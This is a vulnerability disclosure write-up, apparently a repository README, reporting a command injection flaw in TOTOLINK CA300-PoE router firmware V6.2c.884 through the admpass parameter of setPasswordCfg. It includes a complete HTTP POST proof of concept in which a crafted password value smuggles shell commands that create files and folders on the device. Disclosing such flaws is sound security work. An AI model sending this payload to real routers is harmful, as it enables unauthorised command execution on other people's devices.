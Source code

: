 # TOTOLINK  CA300-PoE V6.2c.884 was discovered to contain a command injection vulnerability via the admpass parameter in the function setPasswordCfg

## Description

`TOTOLINK` Router **CA300-PoE V6.2c.884** was found to contain a command injection vulnerability in `setPasswordCfg`.

## ![image-20230112103759214](images/1.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/
* Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html



## Affected version

**Version: V6.2c.884**

![image-20230112103905821](images/2.png)

## Vulnerability details

POC:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Origin: http://192.168.0.254
Connection: keep-alive
Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260
Cookie: SESSION_ID=2:1673492439:2

{'topicurl' : "setting/setPasswordCfg", "admuser":"testuser", "admpass":"11>/tmp/text.txt&mkdir /test2222&echo test:test"}
```

![image-20230112170359673](images/3.png)

![image-20230112165037971](images/4.png)

Folder created successfully

![image-20230112170843189](images/5.png)